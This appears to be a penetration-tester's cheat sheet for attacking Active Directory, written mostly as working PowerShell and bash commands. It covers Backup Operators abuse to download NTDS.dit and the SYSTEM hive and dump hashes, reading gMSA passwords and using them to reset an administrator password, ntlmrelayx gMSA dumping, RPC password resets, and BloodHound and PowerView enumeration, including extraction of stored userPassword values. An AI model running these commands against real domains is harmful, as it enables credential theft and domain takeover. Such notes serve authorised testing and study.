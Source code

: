 # Privileged groups
## AD Recycle Bin
A user in the group is allowed to read / recover deleted AD objects.
```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

## Remote Management Users
Members of this group can access PCs over **WinRM**
```powershell
Get-NetGroupMember -Identity "Remote Management Users" -Recurse
Get-NetLocalGroupMember -ComputerName <pc_name> -GroupName "Remote Management Users"
```

## AD Backup Operators
Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files      
```powershell
# Import libraries
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

# Enable SeBackupPrivilege
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```
- [SeBackupPrivilege DLLs](https://github.com/k4sth4/SeBackupPrivilege)

### Get hashes from .dit file
```bash
# REMOTE

## Download .dit file (assuming evil-winrm is used)
download <database_file>

## Get system HIVE
reg.exe save hklm\system <destination>

# LOCAL (after file downloads)
secretsdump.py -system <system_hive> -ntds <database_file> LOCAL
```

## gMSA
*(ReadGMSAPassword abuse)*     
Group Managed Service Accounts (gMSA) are where Windows servers manage the password for an account by generating a long random password for it.

### Get password (locally)
This solution is taken from: [https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password](https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password)
```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity <user> -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $mp

# Save the password to variables
(ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword 
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword

# Reset password of admin if the compromised user has GenericAll permissions
$cred = New-Object System.Management.Automation.PSCredential <user>, $SecPass
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity <admin_user> -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'PASSWORD' -force)} -Credential $cred
```

### impacket-ntlmrelayx
```bash
ntlmrelayx.py --dump-gmsa --no-dump --no-da --no-acl --no-validate-privs -debug -t ldaps://<ip>
```

### GMSAPasswordReader
```powershell
/GMSAPasswordReader --AccountName <name>
```
- [Documentation](https://github.com/rvazarkar/GMSAPasswordReader)



# Interesting account names
## AD support accounts
Often we have the credentials belonging limited administrative accounts such as `IT`, `helpdesk` or `support`.      
Sometimes, these accounts have an ability to reset passwords.     
*Note that the wording of the account name might be different, but related to aforementioned names*
- [Reset password through RPC](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html#reset-ad-user-password)

```bash
setuserinfo2 <user> 23 <password>
```


# BloodHound
BloodHound is used to visualise AD environments and discover attack paths.        
- [Documentation](https://bloodhound.readthedocs.io/en/latest/index.html)

## Ingestors
### SharpHound
Local data collector for BloodHound
- [Documentation](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)
- [Releases](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)

### bloodhound.py
Python based data collection tool for BloodHound     
This will run against the domain, so can one run it from a remote machine.
```bash
bloodhound-python -u <username> -p <password> -d <domain> -c All -ns <nameserver_ip>                
```
- [Documentation](https://github.com/fox-it/BloodHound.py)



# Powerview
- [Github](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

### Enumeration
- [More help](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview)
```powershell
# Basic domain info
Get-NetDomain

# Users
## Basic user enabled infos
Get-NetUser -UACFilter NOT_ACCOUNTDISABLE | select samaccountname, description, pwdlastset, logoncount, badpwdcount

# Groups
Get-NetGroup | select samaccountname, admincount, description

# Computers
Get-NetComputer | select samaccountname, operatingsystem
## Find computers with Constrained Delegation
Get-NetComputer -TrustedToAuth | select samaccountname #Find computers with Constrained Delegation
## Find any machine accounts in privileged groups
Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse | ?{$_.MemberName -like '*$'}

# Shares
Find-DomainShare -CheckShareAccess

# Check if any user passwords are set
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl

# Asks DC for all computers, and asks every computer if it has admin access (very noisy). You need RCP and SMB ports opened.
Find-LocalAdminAccess

# Find interesting ACLs
Invoke-ACLScanner -ResolveGUIDs | select IdentityReferenceName, ObjectDN, ActiveDirectoryRights | fl
```